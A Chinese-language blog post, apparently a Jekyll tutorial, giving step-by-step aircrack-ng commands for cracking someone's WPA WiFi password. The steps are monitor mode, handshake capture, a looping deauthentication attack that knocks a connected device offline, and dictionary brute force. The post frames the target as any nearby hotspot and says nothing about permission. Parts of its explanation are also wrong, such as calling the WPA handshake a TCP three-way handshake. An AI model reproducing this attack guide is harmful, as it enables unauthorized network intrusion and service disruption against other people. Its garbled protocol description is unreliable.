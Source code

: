 ```yaml
---
layout: post
title: kali WiFi渗透
date: 2019-10-15 09:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: red.jpg # Add image post (optional)
tags: [kali, WiFi渗透] # add tag
---
```


#### 准备工作： kali系统、有无线网卡的电脑、一本强大的密码字典

#### 实现原理：进入kali系统，使用系统自带的Aircrack程序监听周围的热点，选择一个不错的WiFi热点然后对连接它的一台设备进行攻击，使其掉线，掉线后这台设备会自动重新连接，在连接的过程中设备会发送握手的数据包（当然也可以坐等设备连接当前WiFi热点，只要有设备在进行连接就会发送握手包），我们就可以利用伪装的挂载设备去窃取这个握手包，最后就可以用密码字典文件去暴力破解获得密码。

### 1.建立监听热点机制

首先使用ifconfig/iwconfig命令查看无线网卡是否加载成功，如图出现wlan0无线设备即加载成功。（eth0是本机的以太网卡配置参数，wlan0是你的无线网卡名称，lo是回环接口）    
![Alt text](/assets/img/ifconfig.png)

使用airmon-ng start命令将网卡设定为监听模式，此时无线网卡的名称将会变成wlan0mon
![Alt text](/assets/img/start.png)

### 2.监听WiFi热点

使用airodump-ng wlan0mon命令开始嗅探周围的WiFi热点，显示周围热点（ctrl+c 停止监听）
![Alt text](/assets/img/监听wifi信号.png)
> + BSSID: 无线AP（路由器）的MAC地址。
> + PWR: 这个值的大小反应信号的强弱，越大越好。很重要！！！
> + RXQ: 丢包率，越小越好，此值对PJ密码影响不大。
> + Beacons: 反应客户端和AP的数据交换情况，通常此值不断变化。
> + #Data: 这个值非常重要，直接影响到密码PJ的时间长短，如果有用户正在下载文件或看电影等大量数据传输的话，此值增长较快。 
> + CH: 工作频道。
> + MB: 连接速度。
> + ENC: 加密方式。通常有WEP、WPA、TKIP等方式。
> + ESSID: 无线AP广播的名称。

选取一个WiFi热点进行嗅探抓包（当有设备连入当前WiFi后就会抓取tcp握手包并存入保存路径内，坐等……）
```
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:99 -w ~/a/ 网卡名
-c  指定频道号(ch)
--bssid  指定无线路由器的BSSID
-w  指定获取的包存储的路径
```
![Alt text](/assets/img/监听wifi握手包.png)

为了加速获取握手包可以选取一个连接当前WiFi的设备进行攻击，使用aireplay给其发送断开包，设备断开后就会进行自动重连
```
aireplay-ng -0 0 -c AC:88:FD:14:31:5B -a 48:0E:EC:7C:32:99 网卡名
-0  表示发起攻击（deauthentication攻击），后面指定攻击次数，设置0则为循环攻击，不停的攻击客户端将无法正常上网（ctrl+c停止）
-c  指定强制断开的设备的mac地址
-a  指定无线路由器的BSSID
攻击原理：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），此时我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码
```
![Alt text](/assets/img/攻击.png)

这时我们只需等待右上角出现WPA handshake字样，后面跟着BSSID，即为抓到了该无线网的握手包，我们可以使用CTRL+C来停止嗅探握手包。
![Alt text](/assets/img/获得握手包.png)

获取到了握手包我们就可以在之前设置的保存路径中看到，其中.cap文件就是我们需要破解的密码
![Alt text](/assets/img/握手包.png)

### 3、使用字典暴力破解

这一步是整个密码破解的关键，能否成功，取决与你的CPU是否强大，还有你字典的大小，以及字典的质量，密码的复杂程度。
```
aircrack-ng -a2 -b 48:0E:EC:7C:32:99 -w ~/1.txt ~/a/-01.cap
-a2  代表WPA的握手包
-b  指定要破解的WiFi BSSID
-w  指定字典文件
最后是抓取的包
```
![Alt text](/assets/img/暴力破解.png)

最后记得airmon-ng stop关闭你的无线网卡哦
![Alt text](/assets/img/关闭.png)
